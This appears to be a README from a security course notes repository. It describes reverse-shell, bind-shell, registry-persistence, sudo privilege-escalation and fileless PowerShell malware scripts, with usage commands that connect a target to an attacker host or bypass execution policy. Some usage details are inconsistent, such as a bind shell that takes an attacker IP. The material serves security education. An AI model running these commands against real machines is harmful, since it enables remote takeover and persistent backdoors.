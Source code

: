 # InfoSEC Course Notes: Execution, Persistence, Privilege Escalation and Evasion - Week 2

This repository contains my notes for Week 2 of the InfoSEC course on Coursera. The course covers various topics related to cybersecurity, including execution, persistence, privilege escalation, and evasion.

### Contents

The `Execution, persistence, privilege escalation and evasion/Week 2` directory contains the following files:

- `README.md`: this file, providing an overview of the contents of the directory
- `slides.pdf`: a PDF file containing the slides used in the course lectures
- `notes.md`: my personal notes on the topics covered in Week 2

### Code Examples

In addition to the lecture slides and my notes, the course also includes several code examples. The following is a brief description of each code file:

- `reverse_shell.py`: a Python script that sets up a reverse shell on a target machine
- `bind_shell.py`: a Python script that sets up a bind shell on a target machine
- `persistence.py`: a Python script that demonstrates how to achieve persistence on a target machine
- `privilege_escalation.sh`: a Bash script that demonstrates a privilege escalation attack
- `fileless_malware.ps1`: a PowerShell script that demonstrates a fileless malware attack

Each code file is accompanied by a brief description of its purpose and usage in Markdown format.
#### `reverse_shell.py`

This Python script sets up a reverse shell on a target machine, allowing an attacker to gain remote access to the machine. The script opens a listener on the attacker's machine and connects to it from the target machine, giving the attacker control over the target machine.

##### Requirements

- Python 2.7 or 3.x

#### Installation

```
git clone https://github.com/MedhatHassan/InfoSEC 
cd InfoSEC/Execution\%2C\ persistence\%2C\ privilege\ escalation\ and\ evasion/Week\ 2
```
##### Usage

To use the script, run the following command on the target machine:

```
python reverse_shell.py <attacker_ip> <attacker_port>
```

Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port number of the attacker's machine.

#### `bind_shell.py`

This Python script sets up a bind shell on a target machine, allowing an attacker to gain remote access to the machine. The script opens a listener on the target machine and waits for an incoming connection from the attacker's machine, giving the attacker control over the target machine.

##### Requirements

- Python 2.7 or 3.x

#### Installation

```
git clone https://github.com/MedhatHassan/InfoSEC 
cd InfoSEC/Execution\%2C\ persistence\%2C\ privilege\ escalation\ and\ evasion/Week\ 2
```

##### Usage

To use the script, run the following command on the target machine:

```
python bind_shell.py <attacker_ip> <attacker_port>
```

Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port number of the attacker's machine.

#### `persistence.py`

This Python script demonstrates how to achieve persistence on a target machine, allowing an attacker to maintain control over the machine even after a reboot. The script adds a new entry to the Windows registry that runs the script every time the machine starts up, ensuring that the attacker's backdoor is always active.

##### Requirements

- Python 2.7 or 3.x
- Windows operating system

#### Installation

```
git clone https://github.com/MedhatHassan/InfoSEC 
cd InfoSEC/Execution\%2C\ persistence\%2C\ privilege\ escalation\ and\ evasion/Week\ 2
```

##### Usage

To use the script, run the following command on the target machine:

```
python persistence.py
```

The script will add a new entry to the Windows registry that runs the script every time the machine starts up, ensuring that the attacker's backdoor is always active.

#### `privilege_escalation.sh`

This Bash script demonstrates a privilege escalation attack, in which an attacker gains elevated privileges on a target machine. The script exploits a vulnerability in the `sudo` command to gain root access.

##### Requirements

- Bash shell
- `sudo` command

#### Installation

```
git clone https://github.com/MedhatHassan/InfoSEC 
cd InfoSEC/Execution\%2C\ persistence\%2C\ privilege\ escalation\ and\ evasion/Week\ 2
```

##### Usage

To use the script, run the following command on the target machine:

```
bash privilege_escalation.sh
```

The script will exploit the `sudo` vulnerability to gain root access.

#### `fileless_malware.ps1`

This PowerShell script demonstrates a fileless malware attack, in which an attacker gains access to a target machine without leaving any traces on the file system. The script uses the Windows Management Instrumentation (WMI) service to execute malicious code in memory.

##### Requirements

- Windows operating system
- PowerShell

##### Installation

No installation is required. Simply download the `fileless_malware.ps1` file to your Windows machine.

##### Usage

To use the script, run the following command on the target machine:

```
powershell -ExecutionPolicy Bypass -File fileless_malware.ps1
```

The script will use the WMI service to execute malicious code in memory, without leaving any traces on the file system.
